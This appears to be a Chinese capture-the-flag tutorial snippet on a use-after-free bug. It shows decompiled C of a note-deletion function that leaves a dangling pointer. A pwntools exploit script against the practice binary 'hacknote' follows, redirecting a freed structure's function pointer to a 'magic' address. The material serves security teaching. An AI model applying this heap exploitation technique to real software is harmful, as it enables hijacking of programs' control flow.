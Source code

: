 ### UAF(Use After Free)漏洞

示例一

```c
unsigned int del_note()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  v1 = atoi(buf);
  if ( v1 < 0 || v1 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( notelist[v1] )
  {
    free(notelist[v1]->content);
    free(notelist[v1]);                         // 存在UAF
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

**exp:**

```python
# -*- coding: utf-8 -*-
from pwn import *
r = process('./hacknote')
def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

gdb.attach(r)
magic = 0x08048986
addnote(32, "aaaa")
addnote(32, "ddaa")
delnote(0)
delnote(1)
addnote(8, p32(magic))
printnote(0)
r.interactive()
```
